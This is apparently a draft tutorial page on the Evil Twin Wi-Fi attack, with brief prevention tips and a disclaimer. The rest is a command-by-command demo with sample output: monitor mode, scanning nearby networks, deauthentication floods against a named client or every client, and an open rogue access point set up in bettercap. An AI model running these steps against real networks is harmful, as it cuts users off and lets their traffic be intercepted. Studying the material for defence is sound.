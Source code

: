 ```yaml
---
title: "Evil Twin - Draft"
weight: 500
date: 2024-06-15T01:47:46+07:00
draft: true
---
```


# Evil Twin Attack

- A type of MitM attack
- Description: The attacker sets up a rogue Wi-Fi access point that mimics a legitimate network. Devices connect to it, allowing the attacker to intercept all traffic
- Key Characteristics:
    - The rogue network often has a similar name to the real network (e.g., "FreeWiFi")
    - Victims unknowingly connect to the attacker’s network
- Prevention:
    - Educate users to verify SSIDs before connecting
    - Enable **Mutual Authentication** on enterprise Wi-Fi setups

## Demo

{{<hint danger>}}
**DISCLAIMER**: This demo is for educational purposes only. The techniques should only be tested on systems you own or have explicit permission to analyze. Misuse of this information is unethical, may violate the law, and could lead to serious consequences. The author takes no responsibility for any damages or misuse arising from this content
{{</hint>}}

### Disconnect user from wifi

```sh
# Install the Aircrack-ng suite, which includes airmon-ng
sudo apt install aircrack-ng

# Check wireless interface
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
wlo1      IEEE 802.11  ESSID:"A14-01"  
          Mode:Managed  Frequency:2.417 GHz  Access Point: CC:71:90:62:9E:98   
          Bit Rate=130 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=62/70  Signal level=-48 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:203   Missed beacon:0
docker0   no wireless extensions.
# -> Your wireless interface is wlo1

# Disconnect the wireless adapter from managing a network
sudo airmon-ng check kill

# Enable monitor mode on your wireless adapter
sudo airmon-ng start wlo1

# Verify
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
docker0   no wireless extensions.
wlo1mon   IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
# -> Your wireless adapter with monitor mode is now wlo1mon

# Start capture packets
sudo airodump-ng wlo1mon

# Find the channel of wifi
sudo aireplay-ng --test wlo1mon
# -> If it fails, your card may not support Packet Injection
# E.g output
12:26:19  Trying broadcast probe requests...
12:26:21  No Answer...
12:26:21  Found 4 APs
12:26:21  Trying directed probe requests...
12:26:21  CC:71:90:62:9E:98 - channel: 2 - 'A14-01'
12:26:27   0/30:   0%
12:26:27  30:4F:75:8F:7F:28 - channel: 2 - 'Dinh Bao'
12:26:33   0/30:   0%
12:26:34  C0:B5:D7:89:36:70 - channel: 8 - 'Do Hai'
12:26:40   0/30:   0%
12:26:40  E8:43:68:6A:3B:88 - channel: 3 - 'Hoang Linh'
12:26:46   0/30:   0%
# -> We will taget 'A14-01' wifi, its channel is 2

# Stop the process capturing packets and start capture packets only on channel 2
sudo airodump-ng --channel 2 wlo1mon

# Deauthenticate target device from wifi by sending deauth packets
sudo aireplay-ng --deauth 100 -a [BSSID] -c [Client_MAC] wlo1mon
# E.g
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 -c F2:2A:23:9E:54:E2 wlo1mon
# E.g output
12:24:18  Waiting for beacon frame (BSSID: CC:71:90:62:9E:98) on channel 2
12:24:18  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|42 ACKs]
12:24:32  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|326 ACKs]
12:24:33  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 1|253 ACKs]
# Or omit to target all devices
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 wlo1mon


```

- Stop capturing packets (exit monitor mode)
```sh
sudo airmon-ng stop wlo1mon
sudo systemctl restart NetworkManager
```

### Create the rogue access point

```sh
sudo apt update
# net-tools include netstat which is used inside bettercap
sudo apt install net-tools
sudo apt install bettercap


# Rogue access point
sudo bettercap -iface wlo1mon

# In bettercap:
set wifi.ap.ssid Banana
set wifi.ap.bssid DE:AD:BE:EF:DE:AD
set wifi.ap.channel 5
set wifi.ap.encryption false
wifi.recon on; wifi.ap

```

## References

- Bettercap: [WiFi](https://www.bettercap.org/modules/wifi/)
- Evilsocket: [Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) (Feb 13th, 2019)
